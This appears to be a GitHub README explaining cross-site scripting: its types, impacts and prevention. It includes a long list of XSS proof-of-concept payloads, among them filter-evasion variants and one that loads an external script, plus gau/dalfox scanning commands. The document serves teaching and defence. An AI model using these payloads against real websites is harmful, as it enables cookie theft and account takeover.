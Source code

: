 # XSS-Explained
Crite Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 
XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different user like as alert(1) this is the most popular.

## types of XSS attacks 
1.Refleected XSS 
  Description: off a web server often via a query string) and executed in a browser. 
  It happens in(search , URLs)
  
2.Stord XSS 

 Description: Script is stored on the server 
 It happens in ( message , user profiles , comments , chat bot or anywhere to sotred )
 
3.Dom XSS 

 Client-side vulnerability 
 
4.slef XSS 
Occurs when a user unknowingly executes a malicious script that they themselves injected into a vulnerable input field (such as browser developer tools or manipulated links).

## impact 

Data theft as cookies or credentials
Session hijacking and account takeovers.
Defacing websites.
Spreading malware via compromised websites

### PoC 

- `<script>alert(1)</script>`
- `<svg>prompt(1)</svg>`
- `<xss onafterscriptexecute=alert(1)><script>1</script>`
- `<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:10s ease-in-out 0s 1 x;}</style><xss id=x style="position:absolute;" onanimationcancel="print()"></xss>`
- `<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>`
- `<xss onbeforescriptexecute=alert(1)><script>1</script>`
- `<body onbeforeprint=console.log(1)>`
- `<svg><animate onbegin=alert(1) attributeName=x dur=1s>`
- `<audio oncanplay=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>`
- `<xss oncontentvisibilityautostatechange=alert(1) style=display:block;content-visibility:auto>`
- `<input type=hidden oncontentvisibilityautostatechange=alert(1) style=content-visibility:auto>`
- `<svg><animate onend=alert(1) attributeName=x dur=1s>`
- `<audio src/onerror=alert(1)>`
- `<a id=x tabindex=1 onfocus=alert(1)></a>`
- `<xss onfocus=alert(1) autofocus tabindex=1>`
- `<body onhashchange="print()">`
- `<xss id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></xss>`
- `<input onauxclick=alert(1)>`
- `<xss contenteditable onbeforeinput=alert(1)>test</xss>`
- `<input type=file oncancel=alert(1)>`
- `<xss draggable="true" ondragstart="alert(1)" style=display:block>test</xss>`
- `<form onreset=alert(1)><input type=reset>`
- `<form><input type=search onsearch=alert(1) value="Hit return" autofocus>`
- `<body onselectstart=alert(1)>select some text`
- `<form onsubmit=alert(1)><input type=submit>`
- `<body ontouchend=alert(1)>`
- `">img scr =q onerror=prompt(100)>`
- `<script>onerror=alert;throw 1</script>`
- `<script>{onerror=alert}throw 1</script>`
- `<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}</script>`
- `<script>alert\`1\`</script>`
- `<svg onload=alert(1)>`
- `<iframe src="javascript:alert(1)">`
- `<a href="javascript:alert(1)">XSS</a>`
- `<script src="data:text/javascript,alert(1)"></script>`
- `<a href=# download="filename.html">Test</a>`
- `javascript:confirm(1);`
- `<scr<script>ipt>alert('XSS')</scr<script>ipt>`
- `<IMG SRC="javascript:alert('XSS');">`
- `&lt;SCRIPT a=&quot;>&apos;>&quot; SRC=&quot;http://ha.ckers.org/xss.js&quot;&gt;&lt;/SCRIPT&gt;`
- `&lt;A HREF=&quot;http://66.102.7.147/&quot;&gt;XSS&lt;/A&gt;`
- `&lt;A HREF=&quot;http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D&quot;&gt;XSS&lt;/A&gt;`
- `&lt;A HREF=&quot;http://0x42.0x0000066.0x7.0x93/&quot;&gt;XSS&lt;/A&gt;`
- `&lt;A HREF=&quot;http://0102.0146.0007.00000223/&quot;&gt;XSS&lt;/A&gt;`
- `<img DYNSRC="javascript:document.vulnerable=true;">`
- `<img LOWSRC="javascript:document.vulnerable=true;">`
- `<~/XSS STYLE=xss:expression(alert('XSS'))>`

## PoC by automation tool

1.creat file for find all URLs

2.Using dalfox 

```
gau example.com > urls.txt
dalfox file urls.txt --output results.txt
```

## Preventing XSS Attacks

1. Output Encoding: Encode user input before outputting it back to the browser to ensure that scripts cannot be executed.
2. Content Security Policy (CSP): CSP is a browser security feature that helps prevent XSS by restricting which scripts can be executed on a page.
Example of a CSP header:
```Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com;```

3. Input Validation: Validate and sanitize user inputs to ensure only safe data is processed.
For example, block certain characters (e.g., <, >, &) or use whitelisting.
4. HTTPOnly Cookies: Set the HttpOnly flag on cookies to prevent them from being accessed by JavaScript.
5. Escape User Input: Ensure that any user-generated content (e.g., HTML, JavaScript) is properly escaped before being inserted into the pag

References :
[**OWASP**](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS))

[**portswigger**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[**JS Fuck**](https://jsfuck.com/)





